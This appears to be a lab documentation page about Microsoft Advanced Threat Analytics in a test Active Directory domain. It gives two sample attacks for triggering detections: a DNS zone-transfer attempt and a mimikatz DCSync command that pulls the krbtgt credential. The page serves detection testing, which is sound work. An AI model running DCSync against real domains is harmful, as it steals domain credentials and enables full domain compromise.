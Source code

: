```yaml
---
title: "Microsoft ATA"
date: 2020-08-13T17:21:36-07:00
draft: false
weight: 7
---
```


![](../../images/msata.png)

---

## Description
Advanced Threat Analytics (ATA) is an on-premises platform that helps protect your enterprise from multiple types of advanced targeted cyber attacks and insider threats.

## Purpose
Having Microsoft ATA allows defenders to test detections and gain a better sense of ATA's capabilities. It allows offensive security professionals to determine what tools and/or techniques will be detected by Microsoft ATA.

## Configuration Details
* Microsoft ATA is installed on the WEF host
* A lightweight gateway is installed on DC

## Sample Usage

To attempt a zone transfer:
From a cmd.exe prompt, run
```
C:\Users\vagrant>nslookup
Default Server:  UnKnown
Address:  192.168.56.102

> ls -d windomain.local
[UnKnown]
*** Can't list domain windomain.local: Query refused
The DNS server refused to transfer the zone windomain.local to your computer. If this
is incorrect, check the zone transfer security settings for windomain.local on the DNS
server at IP address 192.168.56.102.
```

To attempt to do a DCSync:
```
c:\tools\mimikatz\x64\mimikatz.exe
lsadump::dcsync /domain:windomain.local /user:krbtgt
```

Both of these activities should trigger MSATA alerts within a few minutes. 


## Data Location

## External Links
